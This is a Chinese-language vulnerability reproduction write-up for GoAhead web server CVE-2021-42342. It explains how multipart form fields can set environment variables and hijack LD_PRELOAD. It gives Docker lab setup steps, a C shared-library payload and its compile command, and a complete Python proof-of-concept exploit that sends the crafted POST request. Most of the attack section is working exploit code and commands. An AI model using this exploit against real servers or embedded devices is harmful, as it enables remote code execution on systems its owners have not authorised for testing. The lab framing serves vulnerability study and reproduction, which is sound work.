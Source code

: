 # GoAhead Server 环境变量注入 CVE-2021-42342

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是[CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562)漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持`LD_PRELOAD`来执行任意代码。

参考链接：

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 环境搭建

Vulhub执行如下命令启动GoAhead 5.1.4：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

## 漏洞复现

首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：

```c
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

然后，我们使用[这个脚本](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py)来发送恶意数据包，复现漏洞：

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

可见，我们在动态链接库中编写的劫持代码已经被成功执行：

![image-20220706140106851](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207061401980.png)

## 漏洞POC

```python
import sys
import socket
import ssl
import random
from urllib.parse import urlparse, ParseResult

PAYLOAD_MAX_LENGTH = 16384 - 200


def exploit(client, parts: ParseResult, payload: bytes):
    path = '/' if not parts.path else parts.path
    boundary = '----%s' % str(random.randint(1000000000000, 9999999999999))
    padding = 'a' * 2000
    content_length = min(len(payload) + 500, PAYLOAD_MAX_LENGTH)
    data = fr'''POST {path} HTTP/1.1
Host: {parts.hostname}
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary={boundary}
Content-Length: {content_length}

--{boundary}
Content-Disposition: form-data; name="LD_PRELOAD";

/proc/self/fd/7
--{boundary}
Content-Disposition: form-data; name="data"; filename="1.txt"
Content-Type: text/plain

#payload#{padding}
--{boundary}--
'''.replace('\n', '\r\n')
    data = data.encode().replace(b'#payload#', payload)
    client.send(data)
    resp = client.recv(20480)
    print(resp.decode())


def main():
    target = sys.argv[1]
    payload_filename = sys.argv[2]

    with open(payload_filename, 'rb') as f:
        data = f.read()

    if len(data) > PAYLOAD_MAX_LENGTH:
        raise Exception('payload size must not larger than %d', PAYLOAD_MAX_LENGTH)

    parts = urlparse(target)
    port = parts.port
    if not parts.port:
        if parts.scheme == 'https':
            port = 443
        else:
            port = 80

    context = ssl.create_default_context()
    with socket.create_connection((parts.hostname, port), timeout=8) as client:
        if parts.scheme == 'https':
            with context.wrap_socket(client, server_hostname=parts.hostname) as ssock:
                exploit(ssock, parts, data)

        else:
            exploit(client, parts, data)


if __name__ == '__main__':
    main()
```

